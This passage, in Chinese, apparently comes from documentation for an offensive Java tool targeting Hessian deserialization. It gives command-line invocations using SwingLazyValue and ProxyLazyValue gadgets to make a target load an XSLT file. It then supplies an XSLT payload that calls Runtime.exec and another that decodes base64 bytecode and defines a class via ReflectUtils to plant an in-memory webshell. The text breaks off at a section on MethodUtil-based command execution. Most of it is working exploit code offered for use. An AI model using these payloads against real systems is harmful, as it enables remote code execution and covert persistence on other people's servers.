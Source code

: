描述：`com.sun.org.apache.xalan.internal.xslt.Process`​的`_main`​方法可以执行XSTL文件并进行代码执行，学习自[记一次曲折的XXL-JOB API Hessian反序列化到Getshell](https://forum.butian.net/share/2592)和[JDK Xalan的XSLT整数截断漏洞利用构造](https://flowerwind.github.io/2022/12/29/JDK-Xalan%E7%9A%84XSLT%E6%95%B4%E6%95%B0%E6%88%AA%E6%96%AD%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%9E%84%E9%80%A0/)

工具：接受目标系统中的文件路径然后触发XSTL文件加载

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:XSTL:/tmp/1.xstl" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:XSTL:/tmp/1.xstl" -hessianType "Hessian2"
```

xstl文件命令执行

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
    <xsl:variable name="rtobject" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtobject,'calc')"/>
    <xsl:variable name="processString" select="ob:toString($process)"/>
    <xsl:value-of select="$processString"/>
    </xsl:template>
</xsl:stylesheet>
```

xstl文件加载内存马，下面用org.springframework.cglib.core.ReflectUtils加载字节码，依赖于ReflectUtils类的反射，后面可以抽时间优化下

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"
                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils"
>
    <xsl:template match="/">
        <xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'base64')"/>
        <xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
        <xsl:variable name="rce" select="ru:defineClass('classname',$bs,$cl)"/>
        <xsl:value-of select="$rce"/>
    </xsl:template>
</xsl:stylesheet>

```

#### RuntimeExec 命令执行

描述：`sun.reflect.misc.MethodUtil`​的`invoke`​也是个public static静态方法，它能调用某个对象的方法。因此很容易想到调用Runtime来进行命令执行。但是在对MethodUtil#invoke方法进行传参的时候又需要传递java.lang.Runtime对象，所以在Hessian系列的一些版本中又是打不了的。

限制：对Hessian版本限制如下：
